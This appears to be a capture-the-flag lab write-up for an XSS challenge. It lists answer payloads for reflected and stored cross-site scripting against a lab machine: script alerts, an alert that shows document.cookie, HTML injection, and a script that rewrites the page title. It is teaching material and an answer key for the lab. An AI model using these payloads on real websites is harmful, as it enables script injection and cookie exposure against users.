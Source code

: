 ## XSS

### XSS Challenge

![](./images/XSS.png)

#1 Deploy The VM
```
No answer needed
```

#2 Go to http://10.10.91.51/reflected and craft a reflected XSS payload that will cause a popup saying "Hello".
```
<script>alert('Hello')</script>
```

#3 On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
```
<script>alert(window.location.hostname)</script>
```

#4 Now navigate to http://10.10.91.51/stored and make an account.
   Then add a comment and see if you can insert some of your own HTML.

```
<h1>Hello</h1>
```

#5 On the same page, create an alert popup box appear on the page with your document cookies.
```
<script>alert(document.cookie)</script>
```

#6 Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```
